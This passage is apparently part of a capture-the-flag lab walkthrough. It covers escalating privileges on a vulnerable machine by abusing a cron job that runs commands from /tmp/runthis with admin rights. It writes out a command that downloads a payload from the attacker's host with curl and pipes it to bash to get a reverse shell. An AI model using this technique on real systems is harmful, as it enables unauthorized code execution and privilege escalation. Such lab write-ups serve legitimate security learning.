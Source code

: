 There are many files in eezeepzs's home directory .

```bash
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls 
MAKEDEV    chown        hostname  netreport       taskset     weak-modules
cbq        clock        hwclock   netstat         tc          wipefs
cciss_id   consoletype  kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk     cpio         kill      nice            touch       ypdomainname
chcpu      cryptsetup   killall5  nisdomainname   tracepath   zcat
chgrp      ctrlaltdel   kpartx    nologin         tracepath6  zic
chkconfig  cut          nameif    notes.txt       true
chmod      halt         nano      tar             tune2fs
```

The notes.txt file contains a message that we can use the binaries specifying the full path **/usr/bin/** or **/home/admin/**, we can write our commands ia a file called **runthis** in /tmp directory, a cron job is working behind this.

```bash
bash-4.1$ cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

A cron job with admin permissions is running, we can see it by listing the processes.

```bash
bash-4.1$ ps auxwe | grep admin
ps auxwe | grep admin
admin     2063  0.0  0.7 115048  3768 ?        Ss   03:59   0:00 /usr/bin/python /home/admin/cronjob.py
```

To get a shell as the user **admin**, I created the **runthis** file with a curl command that downloads our bash reverse shell and executes it, and finally I give it execute perisssions.

```bash
bash-4.1$ echo '/usr/bin/curl 192.168.179.1:8000/getadmin | bash' > /tmp/runthis
bash-4.1$ chmod +x /tmp/runthis
```

On the attacking machine I create a bash reverse shell and start a web server with python.
